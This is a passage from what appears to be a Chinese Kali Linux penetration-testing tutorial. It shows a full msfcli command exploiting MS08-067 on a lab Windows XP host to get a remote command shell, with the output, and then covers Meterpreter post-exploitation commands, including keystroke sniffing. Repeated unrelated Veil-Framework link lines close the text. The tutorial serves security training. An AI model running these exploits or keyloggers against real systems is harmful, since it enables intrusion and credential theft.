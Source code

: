 输出的信息显示了 ms08_067_netapi 模块可用的攻击载荷。该模块可以攻击的载荷很多，由于章节的原因，中间部分使用省略号（……）取代了。

（3）这里选择使用 shell_bind/tcp 攻击载荷进行渗透测试。如下所示：

```
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.41.146 PAYLOAD= windows/shell/bind_tcp E
[*] Initializing modules…
RHOST => 192.168.41.146
PAYLOAD => windows/shell/bind_tcp
[*] Started bind handler
[*] Automatically detecting the target…
[*] Fingerprint: Windows XP - Service Pack 0 / 1 - lang:Chinese - Traditional
[*] Selected Target: Windows XP SP0/SP1 Universal
[*] Attempting to trigger the vulnerability…
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.41.146
[*] Command shell session 1 opened (192.168.41.156:60335 -> 192.168.41.146:4444) at 2014-06-06 10:12:06 +0800
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\WINDOWS\system32> 
```

从输出的信息中，可以看到成功的从远程系统上拿到了一个 Windows 命令行的 Shell。这表示渗透攻击成功。

# 6.3 控制 Meterpreter

## 6.3 控制 Meterpreter

Meterpreter 是 Metasploit 框架中的一个杀手锏，通常作为利用漏洞后的攻击载荷所使用，攻击载荷在触发漏洞后能够返回给用户一个控制通道。当使用 Armitage、MSFCLI 或 MSFCONSOLE 获取到目标系统上的一个 Meterpreter 连接时，用户必须使用 Meterpreter 传递攻击载荷。MSFCONSOLE 用于管理用户的会话，而 Meterpreter 则是攻击载荷和渗透攻击交互。本节将介绍 Meterpreter 的使用。

Meterpreter 包括的一些常见命令如下所示。

*   help：查看帮助信息。
*   background：允许用户在后台 Meterpreter 会话。
*   download：允许用户从入侵主机上下载文件。
*   upload：允许用户上传文件到入侵主机。
*   execute：允许用户在入侵主机上执行命令。
*   shell：允许用户在入侵主机上（仅是 Windows 主机）运行 Windows shell 命令。
*   session -i：允许用户切换会话。

通过打开 MSFCONSOLE 实现控制。具体操作步骤如下所示。

（1）在 MSFCONSOLE 上启动一个活跃的会话。

（2）通过利用系统的用户启动登录键盘输入。执行命令如下所示：

```
meterpreter > keyscan_start
Starting the keystroke sniffer… 
```


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
